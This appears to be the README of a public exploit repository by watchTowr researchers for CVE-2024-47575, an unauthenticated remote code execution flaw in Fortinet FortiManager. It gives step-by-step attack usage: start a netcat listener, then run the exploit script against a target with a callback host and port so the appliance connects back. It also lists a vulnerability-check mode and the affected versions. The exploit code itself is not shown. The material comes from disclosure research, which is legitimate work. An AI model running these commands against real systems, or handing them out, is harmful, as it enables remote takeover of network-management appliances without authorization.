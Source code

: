 # CVE-2024-47575
Fortinet FortiManager Unauthenticated Remote Code Execution AKA FortiJump CVE-2024-47575

 See our [blog post](http://labs.watchtowr.com/hop-skip-fortijump-fortijumphigher-cve-2024-23113-cve-2024-47575) for technical details



To begin, establish your ncat session:

```
nc -lvvnp 80
```

Then, execute our detection artefact generator:

```
python3 CVE-2024-47575.py --target 192.168.1.110 --lhost 192.168.1.53 --lport 80 --action exploit
```

To check vulnerability alone, use the following options:
```
python3 CVE-2024-47575.py --target 192.168.1.110 --action check
```

# Affected Versions

```
FortiManager 7.6.0
FortiManager 7.4.0 through 7.4.4
FortiManager 7.2.0 through 7.2.7
FortiManager 7.0.0 through 7.0.12
FortiManager 6.4.0 through 6.4.14
FortiManager 6.2.0 through 6.2.12
FortiManager Cloud 7.4.1 through 7.4.4
FortiManager Cloud 7.2.1 through 7.2.7
FortiManager Cloud 7.0.1 through 7.0.12
FortiManager Cloud 6.4
```

# Exploit authors

This exploit was written by [Sina Kheirkhah (@SinSinology)](https://x.com/SinSinology) of [watchTowr (@watchtowrcyber)](https://twitter.com/watchtowrcyber) 


# Follow [watchTowr](https://watchTowr.com) Labs

For the latest security research follow the [watchTowr](https://watchTowr.com) Labs Team 

- https://labs.watchtowr.com/
- https://x.com/watchtowrcyber

